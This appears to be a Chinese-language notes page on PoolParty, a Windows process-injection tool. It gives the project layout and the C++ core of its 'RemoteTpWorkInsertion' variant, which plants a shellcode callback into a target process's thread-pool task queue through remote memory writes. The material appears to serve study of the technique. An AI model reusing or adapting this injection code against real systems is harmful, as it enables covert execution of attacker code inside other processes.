 ### 代码规模

```
reference-poolparty/
├── PoolParty.sln                 # Visual Studio 解决方案
├── PoolParty/
│   ├── PoolParty.cpp             # 主程序
│   ├── Native.hpp                # NT API 封装
│   ├── Misc.hpp                  # 工具函数
│   ├── Shellcodes.hpp            # Shellcode 定义
│   └── variants/                 # 8 个变体实现
│       ├── Variant1.cpp
│       ├── Variant2.cpp          # RemoteTpWorkInsertion ✅
│       ├── ...
│       └── Variant8.cpp
└── x64/Release/
    └── PoolParty.exe             # 760KB
```

### 关键实现 (Variant 2)

```cpp
void RemoteTpWorkInsertion::SetupExecution() const {
    // 1. 获取 Worker Factory 信息
    auto WorkerFactoryInformation = this->GetWorkerFactoryBasicInformation(*m_p_hWorkerFactory);

    // 2. 读取目标 TP_POOL
    const auto TargetTpPool = w_ReadProcessMemory<FULL_TP_POOL>(*m_p_hTargetPid, WorkerFactoryInformation.StartParameter);
    const auto TargetTaskQueueHighPriorityList = &TargetTpPool->TaskQueue[TP_CALLBACK_PRIORITY_HIGH]->Queue;

    // 3. 创建恶意 TP_WORK
    const auto pTpWork = w_CreateThreadpoolWork(static_cast<PTP_WORK_CALLBACK>(m_ShellcodeAddress), nullptr, nullptr);
    pTpWork->CleanupGroupMember.Pool = static_cast<PFULL_TP_POOL>(WorkerFactoryInformation.StartParameter);
    pTpWork->Task.ListEntry.Flink = TargetTaskQueueHighPriorityList;
    pTpWork->Task.ListEntry.Blink = TargetTaskQueueHighPriorityList;
    pTpWork->WorkState.Exchange = 0x2;  // Insertable

    // 4. 写入远程进程
    const auto pRemoteTpWork = static_cast<PFULL_TP_WORK>(w_VirtualAllocEx(*m_p_hTargetPid, sizeof(FULL_TP_WORK), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));
    w_WriteProcessMemory(*m_p_hTargetPid, pRemoteTpWork, pTpWork, sizeof(FULL_TP_WORK));

    // 5. 劫持任务队列
    auto RemoteWorkItemTaskList = &pRemoteTpWork->Task.ListEntry;
    w_WriteProcessMemory(*m_p_hTargetPid, &TargetTpPool->TaskQueue[TP_CALLBACK_PRIORITY_HIGH]->Queue.Flink, &RemoteWorkItemTaskList, sizeof(RemoteWorkItemTaskList));
    w_WriteProcessMemory(*m_p_hTargetPid, &TargetTpPool->TaskQueue[TP_CALLBACK_PRIORITY_HIGH]->Queue.Blink, &RemoteWorkItemTaskList, sizeof(RemoteWorkItemTaskList));
}
```
